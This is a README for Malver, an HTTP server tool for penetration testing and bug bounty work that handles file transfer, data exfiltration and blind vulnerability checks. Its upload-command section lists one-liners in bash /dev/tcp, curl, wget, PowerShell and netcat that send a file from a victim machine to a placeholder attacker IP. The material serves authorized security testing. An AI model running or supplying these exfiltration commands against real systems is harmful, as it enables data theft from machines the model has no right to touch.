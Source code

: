 # Malver - **Mal**icious Ser**ver** for Pentesting & Bug Bounty

## Overview

Malver (**Mal**cious Ser**ver**) is a lightweight and flexible HTTP server designed for penetration testing and bug bounty hunting. It simplifies file transfers, data exfiltration, and blind vulnerability validation.

## Features

- File Transfer (Upload & Download) – Easily upload and download files during engagements.
- Upload Command Generator – Generate ready-to-use upload commands with multiple options for tightly hardened environments.
- Base64 Decoding – Decode attacker-controlled data via the /b64d endpoint.
- Blind Vulnerability Validation – Use / for testing SSRF, RCE, or command injection scenarios.
- Configurable Endpoints & Directories – Customize paths and storage locations through CLI flags.
- Structured Logging – Log requests, headers, and query parameters in a tabular format for easy analysis.


## Endpoints

| Method | Endpoint | Description |
| ---- | ---- | ---- |
| GET | `/` | Used to validate blind vulnerabilities by sending a request.|
| GET | `/down/{filename}` | Downloads a file from the victim’s machine.|
| POST | `/up` | Uploads a file from the victim’s machine to the attacker's system.|
| GET | `/b64d?d=<encoded>` | Decodes Base64-encoded query data.|


## Installation

Ensure you have Go installed, then run:

```bash
go install github.com/omarelshopky/malver/cmd/malver@latest
```

This will install the malver binary in your Go bin directory.


## Usage

```bash
malver [-headers] [-params] [-port=3000] [-upload=./uploads] [-download=./downloads] [-ping-endpoint=/] [-down-endpoint=/down] [-up-endpoint=/up] [-b64d-endpoint=/b64d]
```


## Command-Line Flags

| Flag | Default | Description |
| ---- | ---- | ---- |
| `-headers` | `false` | Log request headers |
| `-params` | `false` | Log request query parameters |
| `-port` | `3000` | Port to run the HTTP server on |
| `-upload` | `./uploads` | Directory for file uploads |
| `-download` | `./downloads` | Directory for file downloads |
| `-ping-endpoint` | `/` | Endpoint for ping |
| `-down-endpoint` | `/down/` | Endpoint for file downloads |
| `-up-endpoint` | `/up` | Endpoint for file uploads |
| `-b64d-endpoint` | `/b64d` | Endpoint for base64 decoding |
| `-upload-cmds` | `false` | Generate ready-to-use upload commands |
| `-ip` | `<ATTACKING_IP>` | Specify the attacker's IP address (used with -upload-commands) |
| `-file` | `<FILE_PATH>` | Specify the full path of the file to be uploaded (used with -upload-commands) |


## Example Use Cases

- Send a request to `/` and check if the target system can reach back.
- Extract and decode data sent from an exploited machine using `/b64d?q=<encoded>`
- Retrieving files from a compromised machine using `/down/{filename}` to download files.
- Upload a shell or tool using the `/up` endpoint. Use `-upload-cmds` to generate pre-configured upload commands that can be executed on the victim machine using various built-in tools.


### Generating Upload Commands

To quickly generate ready-to-use upload commands, use:

```bash
malver -upload-cmds -ip <ATTACKING_IP> -file <FILE_PATH>
```

Example output:

> Bash

```bash
exec 3<>/dev/tcp/<ATTACKING_IP>/3000; { printf "POST /up HTTP/1.1\r\nHost: <ATTACKING_IP>:3000\r\nContent-Type: application/octet-stream\r\nFilename: <FILE_PATH>\r\nContent-Length: $(wc -c < <FILE_PATH>)\r\n\r\n"; cat <FILE_PATH>; } >&3; cat <&3; exec 3>&-
```

> cURL (Multipart Upload)

```bash
curl -X POST http://<ATTACKING_IP>:3000/up -F "file=@<FILE_PATH>"
```

> cURL (Raw Binary Upload)

```bash
curl -X POST --data-binary "@<FILE_PATH>" http://<ATTACKING_IP>:3000/up -H "Filename: <FILE_PATH>"
```

> wget

```bash
wget --method=POST --body-file=<FILE_PATH> --header="Filename: <FILE_PATH>" --header="Content-Type: application/octet-stream" "http://<ATTACKING_IP>:3000/up"
```

> Invoke-WebRequest (PowerShell)

```powershell
Invoke-WebRequest -Uri "http://<ATTACKING_IP>:3000/up" -Method Post -InFile "<FILE_PATH>" -ContentType "application/octet-stream" -Headers @{"Filename"="<FILE_PATH>"}
```

> Invoke-RestMethod (PowerShell)

```powershell
Invoke-RestMethod -Uri "http://<ATTACKING_IP>:3000/up" -Method Post -InFile "<FILE_PATH>" -ContentType "application/octet-stream" -Headers @{"Filename"="<FILE_PATH>"}
```

> netcat (nc)

```bash
(echo -en "POST /up HTTP/1.1\r\nHost: <ATTACKING_IP>:3000\r\nContent-Length: $(wc -c < <FILE_PATH>)\r\nFilename: <FILE_PATH>\r\nContent-Type: application/octet-stream\r\n\r\n"; cat <FILE_PATH>) | nc <ATTACKING_IP> 3000
```


## Logging

The server logs all incoming requests in the following format:

```bash
<DATE> <TIME> <CLIENT_IP>:<CLIENT_PORT> "<METHOD> <ENDPOINT><QUERY_PARAMS> HTTP/<HTTP_VERSION>" <STATUS_CODE> [<POST_DATA>] | <ENDPOINT_SPECIFIC_MESSAGE>
```

### Verbose Logging

For more detailed insights, you can enable additional logging using:

- `-headers` → Logs request headers in a tabular format.

- `-params` → Logs query parameters in a structured table.

### Example Log Output

```bash
2025/03/24 22:22:59 Starting server on :3000
2025/03/24 22:23:01 127.0.0.1:46266 "GET /b64d?d=bWFsdmVyCg== HTTP/1.1" 200 - | decoded: malver
```

If `-headers` or `-params` is enabled, additional structured logging will be displayed:

### Logged Headers

```bash
┌────────────┬─────────────┐
│ Header     │ Value       │
├────────────┼─────────────┤
│ User-Agent │ curl/8.12.1 │
│ Accept     │ */*         │
└────────────┴─────────────┘
```

### Logged Query Parameters

```bash
┌───────────┬──────────┐
│ Parameter │ Value    │
├───────────┼──────────┤
│ name      │ 3l5h0pky │
│ id        │ 1        │
└───────────┴──────────┘
```

This structured logging helps track client interactions, including query parameters, POST data, and Base64-decoded content, making debugging and auditing more efficient.


## Disclaimer

Malver is intended for legal penetration testing and security research only. Unauthorized use of this tool against systems without explicit permission is illegal and unethical. The author is not responsible for any misuse.
